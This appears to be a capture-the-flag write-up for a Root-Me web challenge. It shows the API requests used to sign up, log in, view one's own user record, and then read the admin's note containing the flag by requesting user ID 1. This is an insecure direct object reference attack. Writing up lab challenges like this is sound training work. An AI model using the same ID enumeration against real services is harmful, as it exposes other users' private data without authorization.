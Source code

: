 1. [Open the task](http://challenge01.root-me.org:59088/)
2. Register an account via GUI or Insomnia

**POST request to http://challenge01.root-me.org:59088/api/signup**

# Request body:
```
{
	"username": "YOUR_USERNAME",
	"password": "YOUR_PASSWORD"
}

```

3. Log in to your account

**POST request to http://challenge01.root-me.org:59088/api/login**

# Request body:
```
{
	"username": "YOUR_USERNAME",
	"password": "YOUR_PASSWORD"
}

```

4. Go to information about user

**GET request to http://challenge01.root-me.org:59088/api/user**

# Response body:
```
{
	"note": "",
	"userid": 2,
	"username": "YOUR_USERNAME"
}
```

5. We can conclude that the flag is in the administrator's note, and its id is 1

**GET request to http://challenge01.root-me.org:59088/api/user/1**

# Response body:
```
{
	"note": "THE FLAG WILL BE HERE",
	"userid": 1,
	"username": "admin"
}
```